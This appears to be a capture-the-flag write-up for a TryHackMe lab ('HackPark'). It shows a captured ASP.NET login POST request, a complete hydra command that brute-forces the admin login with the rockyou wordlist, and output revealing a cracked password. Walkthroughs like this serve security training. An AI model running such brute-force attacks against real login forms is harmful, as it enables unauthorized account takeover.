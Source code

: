 What request type is the Windows website login form using?

`POST`

Now we know the **request type** and have a **URL** for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks: `hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form`

Guess a username, choose a password wordlist and gain credentials to a user account!

[http://10.10.197.201/Account/login.aspx?ReturnURL=/admin/](http://10.10.197.201/Account/login.aspx?ReturnURL=/admin/)

```
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.197.201
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.197.201/Account/login.aspx?ReturnURL=/admin/
Content-Type: application/x-www-form-urlencoded
Content-Length: 558
Connection: close
Upgrade-Insecure-Requests: 1

__VIEWSTATE=tp8uWKWyDMBjEE1oI%2FVny6%2BJZN3VgvibMk5E6HPg5soB2dtdzoBJVYlFw9shqyl7S5ugjvNP%2FeJMPg40AbCmjTBktbryEGfzn89qPvEy4hju%2FWm1obJVNOAXeDJ5LyJlWDfreaV8C0Ahzr3j3QVTpG1aeO9Jn0E9SsNltJ52Lik3oyaE&__EVENTVALIDATION=n2BAoWMNSbaY%2BUw5yGP34IvfuWA6R1%2FRcn1pwRS%2BLGnaSDOAdulCi4LXiDENyWqi9LUi4l3rV8kxafa6yWTutZS%2BHlIwYuIn8WKLox%2BvS%2FJzEnJQc2M8HlL6Q%2FMeUTxVDiDC8439S53nXmT3as%2FCO1tx%2Fqu73Ql%2Fy7flfVubqwNFxnu7&ctl00%24MainContent%24LoginUser%24UserName=asd&ctl00%24MainContent%24LoginUser%24Password=asd&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

```
kali@kali:~/CTFs/tryhackme/HackPark$ hydra -v -l admin -P /usr/share/wordlists/rockyou.txt 10.10.197.201 http-post-form "/Account/login.aspx:__VIEWSTATE=tp8uWKWyDMBjEE1oI%2FVny6%2BJZN3VgvibMk5E6HPg5soB2dtdzoBJVYlFw9shqyl7S5ugjvNP%2FeJMPg40AbCmjTBktbryEGfzn89qPvEy4hju%2FWm1obJVNOAXeDJ5LyJlWDfreaV8C0Ahzr3j3QVTpG1aeO9Jn0E9SsNltJ52Lik3oyaE&__EVENTVALIDATION=n2BAoWMNSbaY%2BUw5yGP34IvfuWA6R1%2FRcn1pwRS%2BLGnaSDOAdulCi4LXiDENyWqi9LUi4l3rV8kxafa6yWTutZS%2BHlIwYuIn8WKLox%2BvS%2FJzEnJQc2M8HlL6Q%2FMeUTxVDiDC8439S53nXmT3as%2FCO1tx%2Fqu73Ql%2Fy7flfVubqwNFxnu7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-19 09:23:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.197.201:80/Account/login.aspx:__VIEWSTATE=tp8uWKWyDMBjEE1oI%2FVny6%2BJZN3VgvibMk5E6HPg5soB2dtdzoBJVYlFw9shqyl7S5ugjvNP%2FeJMPg40AbCmjTBktbryEGfzn89qPvEy4hju%2FWm1obJVNOAXeDJ5LyJlWDfreaV8C0Ahzr3j3QVTpG1aeO9Jn0E9SsNltJ52Lik3oyaE&__EVENTVALIDATION=n2BAoWMNSbaY%2BUw5yGP34IvfuWA6R1%2FRcn1pwRS%2BLGnaSDOAdulCi4LXiDENyWqi9LUi4l3rV8kxafa6yWTutZS%2BHlIwYuIn8WKLox%2BvS%2FJzEnJQc2M8HlL6Q%2FMeUTxVDiDC8439S53nXmT3as%2FCO1tx%2Fqu73Ql%2Fy7flfVubqwNFxnu7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.197.201/
[80][http-post-form] host: 10.10.197.201   login: admin   password: 1qaz2wsx
[STATUS] attack finished for 10.10.197.201 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-19 09:24:37
```
